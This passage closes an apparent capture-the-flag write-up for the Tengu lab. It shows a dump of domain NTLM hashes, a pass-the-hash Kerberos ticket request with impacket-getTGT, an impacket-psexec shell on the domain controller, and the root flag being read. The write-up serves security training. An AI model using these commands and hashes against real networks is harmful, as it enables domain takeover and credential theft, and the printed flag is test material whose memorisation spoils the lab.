SMB         DC              445    DC               tengu.vl\m.winters:1116:aad3b435b51404eeaad3b435b51404ee:1ad14bd3260766345795e7e5233773e9:::
SMB         DC              445    DC               tengu.vl\t2_m.winters:1117:aad3b435b51404eeaad3b435b51404ee:047d38dee146212feb49b326673756b7:::
SMB         DC              445    DC               tengu.vl\t1_m.winters:1119:aad3b435b51404eeaad3b435b51404ee:41b0a7a172358421688706a57ca408b6:::
SMB         DC              445    DC               tengu.vl\Jodie.Carter:1121:aad3b435b51404eeaad3b435b51404ee:8e7ade7559d5fd854574d2835890355d:::
SMB         DC              445    DC               tengu.vl\Christine.Collins:1122:aad3b435b51404eeaad3b435b51404ee:edd55cddca1e98b462851cc0b8a5a99d:::
SMB         DC              445    DC               tengu.vl\Cameron.Fry:1123:aad3b435b51404eeaad3b435b51404ee:e348ef7d7858f4072fbf8a87fe658972:::
SMB         DC              445    DC               tengu.vl\Maria.Howells:1124:aad3b435b51404eeaad3b435b51404ee:1f05558f07623d32445e3103a9eba7aa:::
SMB         DC              445    DC               tengu.vl\Maureen.Davidson:1125:aad3b435b51404eeaad3b435b51404ee:f5ba40246cf354833a4395ea78516f10:::
SMB         DC              445    DC               tengu.vl\Jay.Wright:1126:aad3b435b51404eeaad3b435b51404ee:f887adf2fc6cc4e617d56018ea190c27:::
SMB         DC              445    DC               tengu.vl\Glenn.Wilson:1127:aad3b435b51404eeaad3b435b51404ee:1838327dda242abb0ea554
```

And lastly obtain the last flag:

```bash
└─$ impacket-getTGT -dc-ip 192.168.50.10 tengu.vl/Administrator@dc.tengu.vl -hashes :38c77bef855fd6896bc28c9429e18cfd
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator@dc.tengu.vl.ccache
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ export KRB5CCNAME=/home/user/Downloads/Tengu/Administrator@dc.tengu.vl.ccache 
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ impacket-psexec -k -no-pass Administrator@dc.tengu.vl                                                           
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.tengu.vl.....
[*] Found writable share ADMIN$
[*] Uploading file nIWrmxrU.exe
[*] Opening SVCManager on dc.tengu.vl.....
[*] Creating service jaTH on dc.tengu.vl.....
[*] Starting service jaTH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..

C:\Windows> cd ..

C:\> cd users

C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 9D95-6496

 Directory of C:\Users

03/09/2024  11:52 AM    <DIR>          .
03/09/2024  11:52 AM    <DIR>          Administrator
03/09/2024  11:52 AM    <DIR>          Public
               0 File(s)              0 bytes
               3 Dir(s)   5,029,822,464 bytes free

C:\Users> cd Administrator

C:\Users\Administrator> tree /f
Folder PATH listing
Volume serial number is 9D95-6496
C:.
+---3D Objects
+---Contacts
+---Desktop
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�       root.txt

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�       

+---Documents
+---Downloads
+---Favorites
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�   �   Bing.url

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�   �   

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�   +---Links

+---Links
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�       Desktop.lnk

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�       Downloads.lnk

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
�       

+---Music
+---Pictures
+---Saved Games
+---Searches
+---Videos

C:\Users\Administrator> cd Desktop 

C:\Users\Administrator\Desktop> type root.txt
TENGU{eed69297044a22596495fd609fd63ee}
C:\Users\Administrator\Desktop> 

```

&nbsp;

&nbsp;